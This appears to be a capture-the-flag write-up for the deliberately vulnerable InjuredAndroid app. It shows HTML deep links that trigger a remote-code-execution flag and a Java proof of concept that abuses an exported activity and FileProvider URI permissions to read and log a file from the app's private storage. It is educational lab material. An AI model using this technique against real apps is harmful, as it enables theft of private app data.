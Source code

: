 ```HTML
<html>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">One</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Two</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Three</p>
<p><a href="flag13://rce?combined=Treasure_Planet">RCE</p>
</html>
```

The logic moving the files.
```java
if (intent != null && intent.data != null) {
            copyAssets()
            val data = intent.data
```

If the intent is not null and the **intent.data** is **not equal** to null, the **files** in the **assets** directory will be **copied** to **/data/data/b3nac.injuredandroid/files**

#### Create the proof of concept
- Create the intent
```java
Intent intent = new Intent();
```

- Create the File Provider uri
```java
intent.setData(Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test"));
```

- Grant uri permissions
```java
intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
```

- Set the exported activity class name to call the File Provider
```java
intent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity");
```

- Get the result of the uri call
```java
startActivityForResult(intent, 0);
```

We also need to setup the **onActivityResult** method to print the data from the internal file.
```java
 protected void onActivityResult( int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        
        try {
            Log.d("OHNO", IOUtils.toString(Objects.requireNonNull(getContentResolver().openInputStream(Objects.requireNonNull(data.getData())))));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
